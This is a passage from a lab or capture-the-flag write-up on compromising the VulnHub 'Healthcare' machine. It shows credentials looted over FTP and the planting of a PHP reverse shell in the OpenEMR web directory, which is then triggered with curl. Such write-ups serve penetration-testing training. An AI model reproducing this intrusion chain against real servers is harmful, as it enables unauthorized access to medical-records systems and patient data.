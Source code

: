	│   ├── ssh-RoIgQkNbu874
	│   └── ssh-XLjWYherh886
	└── Videos
	16 directories, 14 files
	```
	- `OpenEMR Passwords.pdf`
	- `Passwords.txt`
	- We can tell this a user's home directory
	- We can add our `id_rsa.pub` key to his `authorized_keys` to be able to SSH into it, but TCP/22 is not up.
4. View interesting files
	- `Passwords.txt`
		```
		┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
		└─# cat 192.168.110.8/Documents/Passwords.txt 
		PCLINUXOS MEDICAL
		root-root
		medical-medical


		OPENEMR
		admin-admin
		medical-medical
		```
	- `OpenEMR Passwords.pdf`
		- Contains some default credentials, not useful
5. Head back to FTP, found out that the entire filesystem `/` is shared in FTP
6. Path to `/var/www/html/openemr`, insert `php-reverse-shell.php`
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/exploit/openemr_rce]
	└─# ftp -nv $ip 
	Connected to 192.168.110.8.
	220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.110.8]
	ftp> user medical
	331 Password required for medical
	Password: 
	230 User medical logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> cd /var/www/html/openemr
	250 CWD command successful
	ftp> put php-reverse-shell.php 
	local: php-reverse-shell.php remote: php-reverse-shell.php
	200 PORT command successful
	150 Opening BINARY mode data connection for php-reverse-shell.php
	226 Transfer complete
	5495 bytes sent in 0.00 secs (30.2916 MB/s)
	```
7. Execute reverse shell
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare]
	└─# curl 192.168.110.8/openemr/php-reverse-shell.php
	```
